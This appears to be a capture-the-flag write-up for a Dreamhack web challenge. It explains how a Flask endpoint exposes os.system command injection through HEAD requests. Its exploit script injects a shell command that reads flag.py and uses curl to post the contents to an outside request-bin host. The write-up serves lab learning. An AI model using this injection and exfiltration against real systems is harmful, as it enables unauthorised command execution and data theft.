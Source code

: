 # Exercise of web hacking basic
> prob : https://dreamhack.io/wargame/challenges/73/

#### The only endpoint code
```py
@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd
```
The / endpoint has only one method 'GET' to access. But in the block, we can not use command injection if request method is 'GET'. So we can not request with 'GET'.

#### Vuln analyze  
list of request methods : `GET`, `POST`, `OPTIONS`, `HEAD`, ...  
The `HEAD` method asks for a response identical to a `GET` request, but without the response body.  
So if the code define case of `GET` method, the `HEAD` method also should defined. If not, some vuln can occur.  
There are no manual for `HEAD` method in this code. If we request for `HEAD`, we can access to endpoint `index` having request.method:`HEAD` not `GET`. -> _Command injection occur._  

#### Exploit code (or use web proxy tool like burpsuite)
```py
import requests, os

bin_url = 'https://oqwerdj.request.dreamhack.games'
server_url = 'http://host1.dreamhack.games:13639/'
shell = f'data=$(cat flag.py);curl --request POST {bin_url} -d "$data"'

req = f'{server_url}?cmd={shell}'

resp = requests.head(req)

print(resp if resp else 'nothing')
```
_Why use `"$data"` instead of just `$data`? : I'm not sure about it. I think the `curl` version is old so that if data has multiple lines of contents, the result data is lost else first line of content(maybe because space character). So I used double quotation to use `$`meta character, not using single quotation._
